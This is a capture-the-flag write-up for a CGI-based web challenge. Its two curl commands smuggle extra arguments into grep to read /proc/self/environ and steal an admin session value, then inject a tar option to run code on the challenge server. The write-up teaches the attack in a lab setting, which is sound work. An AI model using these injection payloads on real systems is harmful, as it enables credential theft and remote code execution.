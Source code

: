 # Old School

* Round: 32 (2023/03)
* Category: Web
* Points: 125
* Solves: 4

## Description

Reject modern web frameworks! Let's go back to the era of CGI scripts.

## Solution

Unquoted bash variable will be splited by space so you can do argument injection on `grep` to read arbitrary files. Getting the `ADMIN_SESSION` from `/proc/self/environ` then use another argument injection on `tar` to get RCE.

```bash
sess=$(curl -v 'http://ictf2.maple3142.net:8763/cgi-bin/match' -d 'text=a&regex=^.* /proc/self/environ -a' | tr '\0' '\n' | grep ADMIN_SESSION | awk -F= '{print $2}')
curl -H "Cookie: session=$sess" 'http://ictf2.maple3142.net:8763/cgi-bin/getlogs' -d 'target= -I /readflag' -v --output -
```
